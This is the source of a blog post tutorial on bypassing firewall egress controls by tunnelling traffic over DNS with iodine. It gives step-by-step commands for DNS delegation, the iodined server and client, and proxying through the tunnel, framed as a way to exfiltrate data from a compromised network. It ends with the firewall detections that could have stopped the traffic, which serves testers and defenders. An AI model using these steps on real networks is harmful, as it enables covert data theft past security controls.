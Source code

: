 ```yaml
---
layout: post
title:  "Application Firewall Bypass over DNS (iodine)"
date:   2020-08-03 10:43:25 -0400
categories: exfiltration 
tags: app-id
---
```

<p>
Sometimes the adversary is behind a security stack and needs to bypass that stack for one reason or another. Also once an environment has been compromised and the adversary finds some desirable data, the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be). 
</p>


<p>
Often times DNS to any name server is still permitted. This is typically because of lack of awareness, and fear that without DNS the entire environment feels down to the users. In many networks with captive portals (airports, hotels, etc) DNS is permitted prior to signing in. This means that if you could make the requests actually look like DNS you should be able to bypass other controls.
</p>

<p>
Iodine is a pretty old, yet stable, tool that allows you to tunnel traffic inside DNS requests. I've found that the client and server run very easily on linux, and much less so on Mac and Windows so be prepared for that.
</p>

<p>
You will require a publicly accessible domain under your control and another system on the outside of the security stack.
</p>


<h3>Step 1 - Configure the Domain</h3>

<p>
This needs to be done before you get stuck behind a security stack. So before you get there make sure to have a stable host online that also permits port 53 ingress. You also need to setup a subdomain on a domain you control.
</p>

<p>
We will be leveraging the DNS in this container, <a href="https://github.com/freshdemo/mailanddns" target="_blank">https://github.com/freshdemo/mailanddns</a>.
</p>

<p>
The zone file will need to be edited to add a sub-domain which is delegated to the public IP address of your iodine server. Keep in mind that example.com is not publicly available so you would need to have your laptop pointed to the public IP of this docker container for this to work, which is why you would want a publicly routable domain outside of a proof of concept. The IP address for t1ns is the IP address of a host instantiated in Azure for this testing.
</p>
<br>
<br>
<pre>
editing forward.example.com

t1      IN      NS      t1ns.example.com.
t1ns    IN      A       52.156.0.169
</pre>

<p>
Don't forget to restart BIND.
</p>
<br>
<br>
<code>
/etc/init.d/bind9 restart
</code>

<p>
You can validate the DNS is setup correctly by ensuring that the delegation resolves correctly.
</p>
<br>
<br>
<pre>
dig t1ns.example.com +short
52.156.0.169
</pre>

<h3>Step 2 - Start the Server</h3>

<p>
From the server that will run iodine (in this case 52.156.0.169) start the iodine server. The address 172.16.25.1 is used as a point to point interface with your client, so this must be in a different subnet as the client and server.
</p>
<br>
<br>
<code>
iodined -f 172.16.25.1 -P boom t1.example.com
</code>

<p>
If all went well you should see something like this.
</p>

<img src="/images/appid-evasion-iodineserver.png">


<h3>Step 3 - Start the Client</h3>

<p>
From the client system behind the security stack start iodine to connect to the iodine server.
</p>
<br>
<code>
iodine -f 52.156.0.169 -P boom t1.example.com
</code>

<p>
You should see messages that look like the following, indicating that the tunnel interface has been brought up.
</p>

<img src="/images/appid-evasion-iodineclient.png">

<p>
At this point you should be able to ping the server (172.16.25.1) at the other side of the tunnel.
</p>

<img src="/images/appid-evasion-iodineping.png">

<h3>Step 4 - Use the Tunnel</h3>

<p>
With this current point to point tunnel established over DNS you would now want to proxy your client traffic over the tunnel. This could be accomplished by configuring a web proxy at the server side.
</p>

<p>
For additional security without the requirement to setup more software you could use an SSH tunnel where the address in this case would be 172.16.25.1, <a href="https://freshdemo.github.io/exfiltration/2020/07/28/appid-evasion-sshtunnel.html" target="_blank">https://freshdemo.github.io/exfiltration/2020/07/28/appid-evasion-sshtunnel.html</a>
<p>

<h3>Step 5 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW permitted the session. That being said there were three opportunities so far that it could have prevented this traffic; The application was identified as tcp-over-dns where all you would want is DNS at most, then there were two spyware signatures identified as "Yourfreedom Command and Control" and "Iodine DNS Tunnel Tool Command and Control".
</p>
<br>
<br>
<img src="/images/appid-evasion-iodinengfw.png" alt="ngfw">



